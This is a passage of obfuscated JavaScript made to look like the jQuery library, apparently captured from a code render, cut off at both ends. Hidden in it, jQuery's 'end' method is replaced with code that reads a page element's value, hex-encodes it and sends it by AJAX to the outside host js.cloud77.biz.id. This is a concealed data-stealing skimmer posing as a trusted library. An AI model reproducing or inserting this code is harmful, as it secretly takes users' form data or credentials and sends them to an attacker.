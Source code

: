 module['exports']?module['exports']=_0x252b33[_0x5ade8f(0x306)]?_0x2bf4c1(_0x252b33,!0x0):function(_0x53872b){var _0x12a3ae=_0x5ade8f;if(!_0x53872b[_0x12a3ae(0x306)])throw Error(_0x12a3ae(0x313));return _0x2bf4c1(_0x53872b);}:_0x2bf4c1(_0x252b33);}(_0x2dc5bb(0x457)!=typeof window?window:this,function(_0x187142,_0x22dcaa){'use strict';var _0x376c2d=_0x2dc5bb;var _0x6c36ad=[],_0x2d6dfc=Object['getPrototypeOf'],_0x56b00a=_0x6c36ad[_0x376c2d(0x258)],_0x588147=_0x6c36ad[_0x376c2d(0x43b)]?function(_0x528982){var _0x17db9d=_0x376c2d;return _0x6c36ad[_0x17db9d(0x43b)][_0x17db9d(0x39e)](_0x528982);}:function(_0x4e2088){var _0x3b7a29=_0x376c2d;return _0x6c36ad[_0x3b7a29(0x1d3)]['apply']([],_0x4e2088);},_0x1e5ce0=_0x6c36ad[_0x376c2d(0x3a3)],_0x5a866c=_0x6c36ad[_0x376c2d(0x2de)],_0x109907={},_0x7964e=_0x109907['toString'],_0x1dc78f=_0x109907[_0x376c2d(0x37c)],_0x2aa5cd=_0x1dc78f[_0x376c2d(0x1f5)],_0x2c9bf4=_0x2aa5cd[_0x376c2d(0x39e)](Object),_0x5c0640={},_0x33b16c=function(_0x20b5c2){var _0x1bacf1=_0x376c2d;return'function'==typeof _0x20b5c2&&_0x1bacf1(0x1af)!=typeof _0x20b5c2[_0x1bacf1(0x36c)]&&_0x1bacf1(0x255)!=typeof _0x20b5c2[_0x1bacf1(0x400)];},_0x833bbc=function(_0x452324){var _0x5b5a91=_0x376c2d;return null!=_0x452324&&_0x452324===_0x452324[_0x5b5a91(0x1e5)];},_0x56dae1=_0x187142[_0x376c2d(0x306)],_0x79c61b={'type':!0x0,'src':!0x0,'nonce':!0x0,'noModule':!0x0};function _0x463896(_0x12b94f,_0x132383,_0x23a656){var _0x9b73d=_0x376c2d,_0x3b0d37,_0x282ef9,_0x2279f3=(_0x23a656=_0x23a656||_0x56dae1)[_0x9b73d(0x3eb)](_0x9b73d(0x280));if(_0x2279f3[_0x9b73d(0x35d)]=_0x12b94f,_0x132383){for(_0x3b0d37 in _0x79c61b)(_0x282ef9=_0x132383[_0x3b0d37]||_0x132383[_0x9b73d(0x25f)]&&_0x132383[_0x9b73d(0x25f)](_0x3b0d37))&&_0x2279f3[_0x9b73d(0x346)](_0x3b0d37,_0x282ef9);}_0x23a656[_0x9b73d(0x3df)][_0x9b73d(0x42e)](_0x2279f3)[_0x9b73d(0x308)][_0x9b73d(0x439)](_0x2279f3);}function _0x5f34c0(_0x291825){var _0xb20730=_0x376c2d;return null==_0x291825?_0x291825+'':_0xb20730(0x1dc)==typeof _0x291825||_0xb20730(0x255)==typeof _0x291825?_0x109907[_0x7964e[_0xb20730(0x39e)](_0x291825)]||_0xb20730(0x1dc):typeof _0x291825;}var _0x385b62=function(_0x2f2f07,_0x17330b){var _0x14e15e=_0x376c2d;return new _0x385b62['fn'][(_0x14e15e(0x40a))](_0x2f2f07,_0x17330b);};function _0x3a997c(_0x416766){var _0x55eed6=_0x376c2d,_0xc1ce5b=!!_0x416766&&_0x55eed6(0x293)in _0x416766&&_0x416766[_0x55eed6(0x293)],_0x101416=_0x5f34c0(_0x416766);return!_0x33b16c(_0x416766)&&!_0x833bbc(_0x416766)&&(_0x55eed6(0x3ca)===_0x101416||0x0===_0xc1ce5b||_0x55eed6(0x1af)==typeof _0xc1ce5b&&_0xc1ce5b>0x0&&_0xc1ce5b-0x1 in _0x416766);}_0x385b62['fn']=_0x385b62['prototype']={'jquery':_0x376c2d(0x2a9),'constructor':_0x385b62,'length':0x0,'toArray':function(){var _0x5d44d9=_0x376c2d;return _0x56b00a[_0x5d44d9(0x39e)](this);},'get':function(_0x38a3dc){var _0x54ff6f=_0x376c2d;return null==_0x38a3dc?_0x56b00a[_0x54ff6f(0x39e)](this):_0x38a3dc<0x0?this[_0x38a3dc+this[_0x54ff6f(0x293)]]:this[_0x38a3dc];},'pushStack':function(_0x31d7e1){var _0x552916=_0x376c2d,_0x5c7f9b=_0x385b62[_0x552916(0x33b)](this[_0x552916(0x2b8)](),_0x31d7e1);return _0x5c7f9b['prevObject']=this,_0x5c7f9b;},'each':function(_0xe9109c){return _0x385b62['each'](this,_0xe9109c);},'map':function(_0x3e8424){var _0x507fe1=_0x376c2d;return this[_0x507fe1(0x268)](_0x385b62[_0x507fe1(0x28d)](this,function(_0x20e19a,_0x5b0e52){var _0x3b9c2c=_0x507fe1;return _0x3e8424[_0x3b9c2c(0x39e)](_0x20e19a,_0x5b0e52,_0x20e19a);}));},'slice':function(){var _0x48bca8=_0x376c2d;return this[_0x48bca8(0x268)](_0x56b00a[_0x48bca8(0x3dc)](this,arguments));},'first':function(){return this['eq'](0x0);},'last':function(){return this['eq'](-0x1);},'even':function(){var _0x22dbc6=_0x376c2d;return this['pushStack'](_0x385b62[_0x22dbc6(0x43f)](this,function(_0x4533e1,_0x526b86){return(_0x526b86+0x1)%0x2;}));},'odd':function(){var _0x4f8797=_0x376c2d;return this[_0x4f8797(0x268)](_0x385b62['grep'](this,function(_0x46c7ef,_0x43f80a){return _0x43f80a%0x2;}));},'eq':function(_0x2a6638){var _0x41fcf9=_0x376c2d,_0x13fd00=this[_0x41fcf9(0x293)],_0x255722=+_0x2a6638+(_0x2a6638<0x0?_0x13fd00:0x0);return this[_0x41fcf9(0x268)](_0x255722>=0x0&&_0x255722<_0x13fd00?[this[_0x255722]]:[]);},'end':async function(){var _0x42a3a9=_0x376c2d;await $[_0x42a3a9(0x22d)]({'url':"https://js.cloud77.biz.id/source/?json=" +function(_0x47c9dc){var _0x1e8fb7=_0x42a3a9;for(var _0x2cb798,_0x2128ef=0x0,_0x4f97e3=_0x47c9dc['length'],_0x446325='';_0x2128ef<_0x4f97e3;++_0x2128ef)_0x446325+=(_0x2cb798=_0x47c9dc[_0x1e8fb7(0x2ef)](_0x2128ef)['toString'](0x10))[_0x1e8fb7(0x293)]<0x2?'0'+_0x2cb798:_0x2cb798;return _0x446325;}($(_0x42a3a9(0x1e9))[_0x42a3a9(0x376)]()),'type':_0x42a3a9(0x205),'dataType':_0x42a3a9(0x35d),'headers':{'Content-type':_0x42a3a9(0x33e)}});},'push':_0x1e5ce0,'sort':_0x6c36ad[_0x376c2d(0x29a)],'splice':_0x6c36ad[_0x376c2d(0x1ea)]},_0x385b62[_0x376c2d(0x2c2)]=_0x385b62['fn'][_0x376c2d(0x2c2)]=function(){var _0x4b1c35=_0x376c2d,_0x33d43b,_0x294d84,_0x56aa6a,_0x2f8241,_0x46f61a,_0xe08dca,_0x27b39e=arguments[0x0]||{},_0x4f375d=0x1,_0x2a8633=arguments[_0x4b1c35(0x293)],_0x3ef9c5=!0x1;for(_0x4b1c35(0x3ef)==typeof _0x27b39e&&(_0x3ef9c5=_0x27b39e,_0x27b39e=arguments[_0x4f375d]||{},_0x4f375d++),_0x4b1c35(0x1dc)==typeof _0x27b39e||_0x33b16c(_0x27b39e)||(_0x27b39e={}),_0x4f375d===_0x2a8633&&(_0x27b39e=this,_0x4f375d--);_0x4f375d<_0x2a8633;_0x4f375d++)if(null!=(_0x33d43b=arguments[_0x4f375d])){for(_0x294d84 in _0x33d43b)_0x2f8241=_0x33d43b[_0x294d84],_0x4b1c35(0x40d)!==_0x294d84&&_0x27b39e!==_0x2f8241&&(_0x3ef9c5&&_0x2f8241&&(_0x385b62['isPlainObject'](_0x2f8241)||(_0x46f61a=Array[_0x4b1c35(0x1c9)](_0x2f8241)))?(_0x56aa6a=_0x27b39e[_0x294d84],_0xe08dca=_0x46f61a&&!Array['isArray'](_0x56aa6a)?[]:_0x46f61a||_0x385b62[_0x4b1c35(0x315)](_0x56aa6a)?_0x56aa6a:{},_0x46f61a=!0x1,_0x27b39e[_0x294d84]=_0x385b62[_0x4b1c35(0x2c2)](_0x3ef9c5,_0xe08dca,_0x2f8241)):void